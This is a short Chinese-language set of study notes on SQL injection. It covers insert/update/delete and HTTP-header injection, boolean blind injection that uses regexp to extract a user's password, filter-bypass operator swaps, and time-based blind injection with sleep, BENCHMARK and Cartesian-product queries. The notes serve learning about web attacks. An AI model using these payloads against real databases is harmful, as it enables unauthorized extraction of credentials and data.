 

##### insert / update / delete 注入

+ 结合函数报错信息，将函数插入到语句中
+ 将查询结果插入表中，再通过其他途径查看



##### http header 注入

如 `XFF`，`referer`

观察点：后台收集了请求头中的信息，并存入到数据库中



##### 布尔盲注

```sql
select (select user_pass from users where user_id = 1) regexp '^a'  -- 前往后匹配
select (select user_pass from users where user_id = 1) regexp 'a$'  -- 后往前


mysql> select 'abcd' > 'abc';
+----------------+
| 'abcd' > 'abc' |
+----------------+
|              1 |
+----------------+
1 row in set (0.00 sec)
```

```
'=' <--> 'like' <--> 'in' --> 'regexp' <--> 'rlike' --> '>' <--> '<'
```



效率太低，写脚本爆



##### 时间盲注

无显示回显，可在以前的基础上加入 `sleep()` 语句，若明显延迟，则注入成功

`BENCHMARK(count,expr)`  执行 `count` 次的 `expr`，如 

即使 `sleep` 和 `benchmark` 都被过滤了，但是我们依然可以通过让 Mysql 进行复杂运算，

以达到延时的效果，比如可以用字段比较多的表来计算笛卡尔积

```sql
select BENCHMARK(10000000,SHA(‘1’));
select if(
    1=0, 
	(select count(*) from information_schema.columns A, information_schema.columns B),
	0
);
```
